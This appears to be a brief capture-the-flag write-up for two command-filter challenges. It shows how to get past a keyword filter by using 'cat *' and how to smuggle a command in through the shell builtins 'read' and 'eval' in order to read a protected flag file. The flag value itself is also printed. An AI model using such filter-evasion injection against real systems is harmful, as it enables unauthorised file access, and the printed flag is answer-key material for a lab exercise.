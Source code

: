 ### cmd1
The original PATH is overwriten so we need to use the full path of the `cat` command.
also , we cann't do `cat flag` because of the filter so we do `cat *`:

`cmd1@ubuntu:~$ ./cmd1 "/bin/cat *"`

### cmd2
the `env_delete` deletes all env variables and the filter restricts running thngs with '/'
and other stuff. The thing to note is that bash builting commands still run.
So I found this https://www.gnu.org/software/bash/manual/html_node/Bash-Builtins.html
and tried tones of thing and eventually I succeeded with:
```
cmd2@ubuntu:~$ ./cmd2 "read c f && eval \$c \$f"
read c f && eval $c $f
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
```
